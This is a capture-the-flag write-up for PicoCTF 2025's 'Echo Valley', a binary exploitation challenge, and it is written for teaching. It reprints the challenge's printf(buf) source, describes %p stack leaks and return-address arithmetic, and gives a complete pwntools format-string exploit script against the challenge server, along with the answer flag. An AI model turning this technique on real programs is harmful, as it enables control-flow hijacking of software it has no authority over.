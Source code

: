 # 🎙️ Challenge: Echo Valley — Format String Exploitation

**Category:** Binary Exploitation  
**CTF:** PicoCTF 2025  
**Flag:** `picoCTF{f1ckl3_f0rmat_f1asc0}`

---

## 📝 Description

> The Echo Valley is a simple function that echoes back whatever you say to it. But how do you make it respond with something more interesting — like a flag?  
>  
> You're given the source and binary of a program. Can you exploit it to leak the flag from `/home/valley/flag.txt`?

---

## 🧠 Summary

The challenge binary `valley` includes a function called `print_flag()` that reads and prints the flag, but it is never called in the program flow. The program instead reads and echoes back user input via the vulnerable `printf(buf)` statement — a clear case for **Format String Vulnerability**.

---

## 🔍 Vulnerability Analysis

The vulnerable code is found in `echo_valley()`:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void print_flag() {
    char buf[32];
    FILE *file = fopen("/home/valley/flag.txt", "r");

    if (file == NULL) {
      perror("Failed to open flag file");
      exit(EXIT_FAILURE);
    }
    
    fgets(buf, sizeof(buf), file);
    printf("Congrats! Here is your flag: %s", buf);
    fclose(file);
    exit(EXIT_SUCCESS);
}

void echo_valley() {
    printf("Welcome to the Echo Valley, Try Shouting: \n");

    char buf[100];

    while(1)
    {
        fflush(stdout);
        if (fgets(buf, sizeof(buf), stdin) == NULL) {
          printf("\nEOF detected. Exiting...\n");
          exit(0);
        }

        if (strcmp(buf, "exit\n") == 0) {
            printf("The Valley Disappears\n");
            break;
        }

        printf("You heard in the distance: ");
        printf(buf);
        fflush(stdout);
    }
    fflush(stdout);
}

int main()
{
    echo_valley();
    return 0;
}
```
In hint it is saying - Ever heard of a format string attack?

We have to do format string attack.

This directly passes unsanitized input to printf, allowing format string specifiers (e.g., %p, %x, %n) to be interpreted — leading to memory leaks and potentially arbitrary memory writes.

## 🔓 Exploitation Steps
## 🔎 Step 1: Leak Stack and Main Return Address

We send a format string payload to enumerate values on the stack:

```
%1$p | %2$p | %3$p | ... | %30$p
```

This helps us locate:

    The return address on the stack.

    A memory leak that we can correlate with the binary’s main() function address.

Sample leak:

```
0x555555555413 | 0x555555555269
```

Where:

    `0x555555555413 corresponds to main (in GDB).`

    `0x555555555269 corresponds to print_flag.`

We calculate the runtime address of print_flag() using the delta between these two.
## 🧮 Step 2: Calculate Addresses

```
stack_address = int(leaks[0], 16) - 8
leaks_add     = int(leaks[1], 16)

gdb_leak = 0x0000555555555413  # main in GDB
gdb_flag = 0x0000555555555269  # print_flag in GDB

real_flag = (gdb_flag - gdb_leak) + leaks_add
```

This computes the actual memory address of print_flag() based on runtime leak offsets.
## 🧨 Step 3: Overwrite Return Address

Using fmtstr_payload() from pwntools, we craft a payload to overwrite the return address on the stack with the address of print_flag().

payload = fmtstr_payload(offset, {stack_address: real_flag}, write_size="short")

The offset is determined from earlier format string probing.
## 🧪 Full Exploit Code

```
from pwn import *

e = ELF('./valley')
context.binary = './valley'
# p = process('./valley')  # for local testing

p = remote('shape-facility.picoctf.net', 53151)

# Leak addresses
p.sendline(b'%20$p|%21$p')
p.recvuntil(b'You heard in the distance: ')
leaks = p.recvline().strip().decode().split('|')

stack_address = int(leaks[0], 16) - 8
leaks_add = int(leaks[1], 16)

gdb_leak = 0x0000555555555413
gdb_flag = 0x0000555555555269
real_flag = (gdb_flag - gdb_leak) + leaks_add

offset = 6  # confirmed by trial

payload = fmtstr_payload(offset, {stack_address: real_flag}, write_size='short')
p.sendline(payload)
p.sendline(b'exit')
p.interactive()

```

## 🏁 Final Flag

`picoCTF{f1ckl3_f0rmat_f1asc0}`

## 🧰 Tools & Techniques Used

    pwntools (fmtstr_payload, ELF, remote)

    Format string probing (%p)

    Stack address leakage and return address overwrite

    Manual offset calculations and GDB verification

## 📚 References

    Format String Exploitation — PayloadsAllTheThings

    Pwntools Documentation

    LiveOverflow Format String Attack Series

## ⚠️ Disclaimer

This writeup is intended for educational use only. Unauthorized exploitation of format string vulnerabilities on systems without permission is unethical and potentially illegal.


